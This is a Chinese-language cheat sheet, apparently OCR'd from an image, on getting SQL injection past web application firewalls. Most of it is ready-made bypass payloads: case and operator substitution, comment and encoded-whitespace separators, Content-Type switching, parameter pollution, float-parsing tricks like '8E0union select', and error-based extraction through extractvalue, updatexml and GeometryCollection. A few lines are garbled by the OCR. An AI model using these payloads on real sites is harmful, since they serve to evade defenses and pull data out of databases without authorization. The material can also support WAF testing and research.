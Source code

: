 使用了blacklist函数过滤了'or'和'AND'

大小写变形:Or,OR,oR

等价替换：and->&&,or->||

2、黑盒绕过

寻找源站->针对云WAF

利用同网段->绕过WAF防护区域

利用边界漏洞->绕过WAF防护区域

资源限制角度绕过WAF

POST大BODY

请求方式变换GET->POST

Content-Type变换：application/x-www-form-urlencoded;->multipart/form-data;

参数污染

SQL注释符绕过

Level-1:union/**/select

Level-2:union/*aaaa%01bbs*/select

Level-3:union/*aaaaaaaaaaaaaaaaaaaaaaa*/select

内联注释:/*!xxx*/

空白符绕过

MySQL空白符：%09,%0A,%0B,%0D,%20,%0C,%A0,/*XXX*/

正则的空白符:%09,%0A,%0B,%0D,%20

Example-1:union%250Cselect

Example-2:union%25A0select

concat%2520(

concat/**/(

concat%250c(http://127.0.0.1/Less/?id=1

concat%25a0(

浮点数词法解析

select * from users where id=8E0union select 1,2,3

select * from users where id=8.0union select 1,2,3

select * from users where id=\Nunion select 1,2,3

extractvalue(1.concat(0x5c,md5(3)));

updatexml(1,concat(0x5d,md5(3))),1);

GeometryCollection((select*from(select@@version)f)x))
